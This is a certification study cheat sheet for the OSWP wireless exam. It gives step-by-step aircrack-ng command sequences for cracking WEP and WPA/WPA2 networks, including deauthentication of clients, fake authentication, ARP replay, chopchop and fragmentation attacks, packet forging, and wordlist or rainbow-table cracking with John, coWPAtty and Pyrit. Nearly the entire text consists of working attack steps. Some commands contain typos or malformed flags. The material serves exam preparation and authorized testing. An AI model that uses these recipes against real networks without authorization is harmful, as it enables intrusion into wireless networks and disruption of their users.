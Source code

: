 **OSWP Note**

**Setup**

- ifconfig / iwconfig
- macchanger --show
- service NetworkManager start/stop
- airmon-ng
- airmon-ng check kill
- airmon-ng start/stop wlan0
- iwlist wlan0mon channel
- airodump-ng wlan0mon [-c channel]
- airodump-ng wlan0mon [-c channel] --bssid 00:11:22:33:44:55 -w file.cap
- airodump-ng wlan0mon [-c channel] --bssid 00:11:22:33:44:55 -w file.cap -–ivs **(Only capture IVs in WEP)**
- aireplay -9 -e [ESSID] -a [AP MAC] wlan0mon **//Test injection**
- cd /root/psk-crack-dictionary
- **Screen Operations**
  - screen -S session\_name
  - **ctrl+a+d** to detach the session
  - screen -ls
  - screen -r session\_name
- **Troubleshooting**
  - No AP/STA info
    - Stop **NetworkManager**
    - Uninstall **rmmod** and reload **modprobe** driver
    - Work well in **managed** mode
  - Cannot continue to capture
    - airmon-ng check kill
    - Stop **wpa\_supplicant** process

**WEP**

- **Crack WEP with Connected Clients**
  - airmon-ng start wlan0 [channel]
  - airodump-ng [-c channel] –bssid [AP MAC] -w file.cap wlan0mon **//Capture the packets**
  - aireplay-ng -1 0 -e [ESSID] -a [AP MAC] -h [My MAC] wlan0mon

**Or** aireplay-ng -1 6000 -e [ESSID] -b [AP MAC] -h [My MAC] wlan0mon **//Conduct a fake authentication attack against the AP**

  - aireplay-ng -3 -b [AP MAC] -h [My MAC] wlan0mon **//Launch the ARP request replay attack**
  - aireplay-ng -0 1 -a [AP MAC] -c [Client MAC] wlan0mon **//Deauthenticate the connected client to force new IW generation by the AP**
  - aircrack-ng -0 file.cap **//When enough IVs has been captured, typically 25w for 64bit key, 150w for 128bit key, sometimes 5w IVs. In general, more than 10W IVs.**
- **Crack WEP Via a Client**
  - airmon-ng start wlan0 [channel]
  - airdump-ng -c [channel] –bssid [AP MAC] -w file.cap wlan0mon

aireplay-ng -1 0 -e [ESSID] -a [AP MAC] -h [My MAC] wlan0mon

**Or** aireplay-ng -1 6000 -e [ESSID] -b [AP MAC] -h [My MAC] wlan0mon **//Conduct a fake authentication against the AP**

  - aireplay-ng -2 -b [AP MAC] -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon **//Launch the interactive packet replay attack looking for ARP packets coming from the AP**
  - aircrack-ng -0 -z file.cap **//When enough IVs have been captured**
- **Crack Clientless WEP Networks**
  - airmon-ng start wlan0 [channel]
  - airodump-ng -c [channel] –bssid [AP MAC] -w file.cap wlan0mon
  - aireplay-ng -1 0 -e [ESSID] -a [AP MAC] -h [My MAC] wlan0mon

**Or** aireplay-ng -1 6000 -e [ESSID] -b [AP MAC] -h [My MAC] wlan0mon **//Conduct a fake authentication attack against the AP**

  - aireplay-ng -4 -b [AP MAC] -h [My MAC] wlan0mon **//Run attack 4, the KoreK chopchop attack, or attack 5, the fragmentation attack**
  - packetforge-ng -0 -a [AP MAC] -h [My MAC] -1 255.255.255.255 -k 255.255.255.255 -y [XOR filename] -w [output filename] **//Craft an ARP request packet using packetforge-ng**
  - aireplay-ng -2 -r [output filename] wlan0mon **//Inject the packet into the network using attack2, the interactive packet replay attack**
  - aircrack-ng -0 file.cap **//Crack the WEP key**
- **Bypass WEP Shared Key Authentication**
  - airmon-ng start wlan0 [channel]
  - airodump-ng -c [channel] –bssid [AP MAC] -w file.cap wlan0mon
  - aireplay-ng -0 1 -a [AP MAC] -c [Client MAC] wlan0mon **//Deauthenticate the connected client to capture the PRGA XOR keystream**
  - aireplay-ng -1 0 -e [ESSID] -y [keystream file] -a [AP MAC] -h [My MAC] wlan0mon

**Or** aireplay-ng -1 6000 -e [ESSID] -y [keystream file] -b [AP MAC] -h [My MAC] wlan0mon **//Conduct a fake key authentication using the XOR keystream**

  - aireplay-ng -3 -b [AP MAC] -h [My MAC] wlan0mon **//Launch the ARP request replay attack**
  - aireplay-ng -0 1 -a [AP MAC] -c [Client MAC] wlan0mon **//Deauthenticate the victim client again to force the generation of an ARP packet**
  - aircrack-ng file.cap

**WPA/WPA2**

- **Use Aircrack-ng to crack WPA/WPA2 psk (√)**
  - airmon-ng start wlan0 [channel]
  - airodump-ng -c [channel] –bssid [AP MAC] -w file.cap wlan0mon
  - aireplay-ng -0 1 -a [AP MAC] -c [Client MAC] wlan0mon **//Deauthenticate a connected client to force it to complete the 4-way handshake**
  - aircrack-ng -w [wordlist] file.cap **//Crack the WPA password**
  - aircrack-ng -r [Db name] file.cap **//If I have and Airolib-ng database, it can be passed to aircrack**
- **Use JohnTheRipper and Aircrack-ng to crack WPA**
  - airmon-ng start wlan0 [channel]
  - airodump-ng -c [channel] –bssid [AP MAC] -w file.cap wlan0mon
  - aireplay-ng -0 1 -a [AP MAC] -c [Client MAC] wlan0mon **//Force a client to reconnect and complete the 4-way handshake by running a deauthentication attack against it**![](RackMultipart20210619-4-1dxxjt7_html_53ea70008fd28e3f.png)
  - john -–wordlist=[wordlist] –-rules –stdout | aircrack-ng -e [ESSID] -w - file.cap **//Once a handshake has been captured, change to the John directory and pipe in the mangled words into aircrack-ng to obtain the WPA password**

![](RackMultipart20210619-4-1dxxjt7_html_21c2402165093a7b.png)

- **Crack WPA with coWPAtty**
  - airmon-ng start wlan0 [channel]
  - airodump-ng -c [channel] –bssid [AP MAC] -w file.cap wlan0mon
  - aireplay-ng -0 1 -a [AP MAC] -c [Client MAC] wlan0mon **//Deauthenticate a connected client to force it to complete 4-way handshake**
  - cowpatty -r file.cap -f [wordlist] -2 -s [ESSID] **//To crack the WPA password with coWPAtty in wordlist mode**![](RackMultipart20210619-4-1dxxjt7_html_d34a012e9bb1aac1.png)
  - genpmk -f [wordlist] -d [hashes filename] -s [ESSID] **//To use rainbow table mode with coWPAtty, first generate the hashes**![](RackMultipart20210619-4-1dxxjt7_html_494ff00685222c4f.png)
  - cowpatty -r file.cap -d [hashes filename] -2 -s [ESSID] **//Run coWPAtty with the generated hashes to recover the WPA password**![](RackMultipart20210619-4-1dxxjt7_html_772e0bc1911584cb.png)
- **Crack WPA with Pyrit**
  - airmon-ng start wlan0 [channel]
  - airodump-ng -c [channel] –bssid [AP MAC] -w file.cap wlan0mon
  - aireplay-ng -0 1 -a [AP MAC] -c [Client MAC] wlan0mon **//Deauthenticate a connected client to force it to complete 4-way handshake**
  - pyrit -r file.cap -I [wordlist] -b [AP MAC] attack\_passthrough **//Run Pyrit in dictionary mode to crack the WPA password**
  - pyrit -I [wordlist] import\_passwords **//To use Pyrit in database mode, begin by importing my wordlist**
  - pyrit -e [ESSID] create\_essid **//Add the ESSID of the AP to Pyrit database**
  - pyrit batch **//Generate the PMKs for the ESSID**
  - pyrit -r file.cap -b [AP MAC] attack\_db **//Launch Pyrit in database mode to crack the WPA password**
